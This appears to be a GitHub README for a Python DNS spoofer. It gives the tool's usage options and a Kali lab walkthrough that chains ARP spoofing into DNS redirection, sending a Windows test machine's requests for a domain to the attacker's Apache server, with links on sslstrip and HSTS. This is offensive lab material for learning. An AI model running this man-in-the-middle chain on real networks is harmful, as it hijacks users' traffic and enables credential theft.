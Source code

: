 # DNS Spoofer

## Requirements

* Python 3
* Scapy and netfilter modules
* Domain to be spoofed
* IP address webserver to redirect to

## Usage

```shell
usage: dns_spoofer.py [-h] [-d DOMAIN] [-r IP] [-q DESTINATION]

DNS spoof tool

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain to spoof
  -r IP, --ip IP        IP address to redirect to
  -q DESTINATION, --destination DESTINATION
                        Forward or local

Example: 
            dns_spoofer.py -q forward               # spoof domain on target (Windows)
            dns_spoofer.py -d sqa.fyicenter.com     # domain
            dns_spoofer.py -r 192.168.122.108       # redirection address
            dns_spoofer.py                          # with defaults local, apache2 and sqa.fyicenter.com
```

### Kicking the tyres

Choose a domain to spoof and check it is reachable:

```shell
@kali:~$ ping -c 1 sqa.fyicenter.com
PING sqa.fyicenter.com (74.208.236.35) 56(84) bytes of data.
64 bytes from 74-208-236-35.elastic-ssl.ui-r.com (74.208.236.35): icmp_seq=1 ttl=52 time=131 ms

--- sqa.fyicenter.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 131.125/131.125/131.125/0.000 ms

```

Become MitM by running the [arp_spoofer](/arp_spoofer)

```shell
@kali:~$ sudo python3 arp_spoofer.py
[sudo] password for <user>: 
[+] Setting forward
[+] Packets sent: 63
```

Run DNS spoofer:

```shell
@kali:~$ sudo python3 dns_spoofer.py -q forward
[+] Starting apache2 service...
              
```

On Windows testlab machine, visit http://sqa.fyicenter.com in browser and check that the Kali apache server comes up instead.

```shell
@kali:~$ sudo python3 dns_spoofer.py
[+] Starting apache2 service...
[+] Spoofing Target
                   
```

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)
* [Bettercap sslstrip not working](https://github.com/tymyrddin/ymrir/wiki/bettercap.md)
* [Undesired HTTPS redirects](https://github.com/tymyrddin/ymrir/wiki/https-browser.md)
* [Correctly configured HSTS](https://github.com/tymyrddin/ymrir/wiki/hsts.md)
